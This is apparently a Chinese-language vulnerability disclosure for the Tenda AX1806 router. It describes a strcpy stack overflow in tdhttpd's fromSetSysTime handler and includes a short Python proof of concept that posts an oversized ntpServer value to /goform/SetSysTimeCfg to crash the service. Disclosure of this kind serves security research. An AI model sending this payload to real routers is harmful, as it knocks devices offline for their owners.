 # 漏洞描述

设备：Tenda-AX1806 v1.0.0.1 https://www.tenda.com.cn/download/detail-3306.html

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

该漏洞发生于tdhttpd文件的fromSetSysTime函数中，goform/SetSysTimeCfg页面

![image-20220208184212635](image/1.png)

v4来源于http数据包中的ntpServer参数，但是，在对该参数进行处理时，缺乏安全性的考虑，直接调用strcpy将该值拷贝到栈上的&v33[16]，由此造成了栈溢出

攻击者可以利用这一点使得tdhttpd程序崩溃，从而实现拒绝服务攻击

# POC

拒绝服务的poc：

```python
import requests

url = "https://192.168.2.1/goform/SetSysTimeCfg"

ntpserver = b"a"*0x10000
timeType = "sync"
r = requests.post(url, data={"timeType" : timeType ,"ntpServer" : ntpserver},verify=False)
print(r.content)
```

